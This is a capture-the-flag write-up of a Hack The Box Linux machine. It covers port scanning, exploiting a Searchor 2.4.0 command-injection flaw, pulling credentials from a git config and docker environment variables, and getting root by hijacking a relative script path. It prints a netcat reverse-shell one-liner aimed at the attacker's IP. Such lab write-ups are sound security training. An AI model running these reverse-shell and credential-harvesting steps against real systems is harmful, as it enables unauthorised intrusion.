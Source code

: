 ```yaml
---
title: HTB-Cap
date: 18-08-2025 01:30:00
categories:
  - Writeups
  - HTB
tags:
  - Enumeration
  - git
  - python
  - docker
---
```

Target - 10.129.228.217

Do nmap on target with  - nmap -F {target} to see open ports.

![[Pasted image 20250819010641.png]]

As seen in nmap results, we can see ssh and 80 port is open, when we navigate to 80, we found the url changed to searcher.htb

![[Pasted image 20250819010724.png]]

so lets try adding into /etc/hosts file.

As soon as we added the IP and hostname in hosts file, refresh the browser and we got page as below

![[Pasted image 20250819011005.png]]

as seen in footer, it says "Powered by Flask and searchor 2.4.0"

so google like " Searchor 2.4.0 poc", and i got this [link](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

As per the instructions given, follow the steps and u will get shell

![[Pasted image 20250819021759.png]]
![[Pasted image 20250819021915.png]]
![[Pasted image 20250819022024.png]]

Enumerate the folders which we landed at first

![[Pasted image 20250819022056.png]]

As noticed git folder exists in /var/www/app/, check for git configs files

![[Pasted image 20250819022139.png]]

cd to ".git" folder and read "config" file

![[Pasted image 20250819022358.png]]

so once again add this host in /etc/hosts file to access the url

visit "gitea.searcher.htb" and login with user "cody" and respective password.

explore the repos, we noticed administrator user exists, and his repos are private.

Also try login SSH tried login svc user with password found above, and it worked

for to privesc type sudo -l to check possiblities

![[Pasted image 20250819024015.png]]

as shown above screenshot user can run those commands

![[Pasted image 20250819024123.png]]

try docker-ps, docker-inspect, full-checkup

![[Pasted image 20250819024207.png]]

output will be json so pipe it to the tool jq for easy reading


![[Pasted image 20250819024340.png]]

from the output, we can see the creds are in env variables

try login gitea again with administrator username and with this password we got, check the private repos.

![[Pasted image 20250819025712.png]]

upon checking the codes, we can see full-checkup runs full-checkup.sh, basically, The `system-checkup.py` script allows actions like `docker-ps`, `docker-inspect`, and `full-checkup`.

When the **`full-checkup` action** is triggered, the script runs a shell script called **`full-checkup.sh`**. 

Importantly, the script calls `full-checkup.sh` via a **relative path** (`./full-checkup.sh`) instead of an absolute one (e.g., `/opt/scripts/full-checkup.sh`). This means that if we place a malicious `full-checkup.sh` in any directory we can write to, and then run `system-checkup.py` from that directory, the script will execute **our malicious version** instead of the intended one — effectively giving us code execution with the same privileges the script runs under (in this case, root).

```bash
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [your ip] 9001 >/tmp/f" > /tmp/full-checkup.sh
```

run this to create our custom "full-checkup.sh" in tmp directory

listen using below command

```bash
nc -nvlp 9001
```

run "chmod +x" to make our sh script executable

now run the system-checkup command as we got output from sudo -l

cd to tmp directory and run this below

```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Thats it we got root shell as shown in below screenshot

![[Pasted image 20250819031013.png]]


Thanks for the time, See you in next post!!